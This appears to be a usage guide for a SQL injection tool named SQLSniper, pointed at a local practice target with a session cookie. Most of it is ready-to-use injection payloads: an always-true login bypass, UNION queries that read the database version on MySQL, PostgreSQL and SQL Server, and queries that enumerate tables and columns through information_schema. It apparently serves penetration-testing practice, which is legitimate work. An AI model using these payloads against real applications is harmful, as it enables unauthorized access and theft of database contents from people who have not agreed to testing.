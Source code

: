 ### Launching Interactive Mode

```bash
python3 sqlsniper.py -u "http://localhost/vulnerabilities/sqli/" -c "PHPSESSID=0v7plsq76ts6hr8dmnqiq427s4;security=low" -m interactive
```

### Using Interactive Mode

Once launched, you'll see the SQLSniper prompt:
```
SQLSniper> 
```

At this prompt, you can enter SQL injection payloads. The tool automatically formats and sends these to the target.

### Common Payload Examples

Below are some useful payloads to try in interactive mode:

#### Basic Authentication Bypass
```
1' OR '1'='1
```
This basic payload attempts to bypass login forms by making the WHERE clause always evaluate to true.

#### Database Version Detection
For MySQL/MariaDB:
```
0' UNION SELECT 1,@@version,3 -- -
```

For PostgreSQL:
```
0' UNION SELECT 1,version(),3 -- -
```

For Microsoft SQL Server:
```
0' UNION SELECT 1,@@version,3 -- -
```

#### List All Tables
```
0' UNION SELECT 1,table_name,3 FROM information_schema.tables WHERE table_schema=database() -- -
```
This reveals all tables in the current database.

#### List Columns in a Table
```
0' UNION SELECT 1,column_name,3 FROM information_schema.columns WHERE table_name='users' -- -
```
Replace 'users' with your target table name.
